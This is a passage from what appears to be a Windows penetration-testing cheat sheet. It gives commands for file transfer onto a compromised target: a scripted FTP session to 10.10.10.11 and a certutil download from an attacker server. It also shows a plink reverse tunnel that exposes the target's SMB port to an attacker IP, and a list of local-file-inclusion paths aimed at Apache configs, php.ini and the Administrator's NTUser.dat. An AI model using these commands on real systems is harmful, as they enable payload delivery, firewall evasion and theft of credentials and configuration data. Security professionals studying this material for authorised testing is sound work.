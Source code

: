 Non-interactive FTP via text file._Useful for when you only have limited command execution._

```text
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt

ftp -v -n -s:ftp.txt
```

CertUtil

```text
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

### Port Forwarding <a id="port-forwarding"></a>

This is useful for exposing inside services that aren’t available from outside the machine, normally due to firewall settings.

Upload`plink.exe`to target.

Start SSH on your attacking machine.

For example to expose SMB, on the target run:

```text
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

_Note: As of the Fall Creators Update for Windows 10, OpenSSH has been introduced in beta for Windows, so I expect one day we may be able to use just regular old SSH commands for port forwarding, depending on if it’s enabled._

### Local File Inclusion List <a id="local-file-inclusion-list"></a>

This is not an exhaustive list, installation directories will vary.

```text
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
```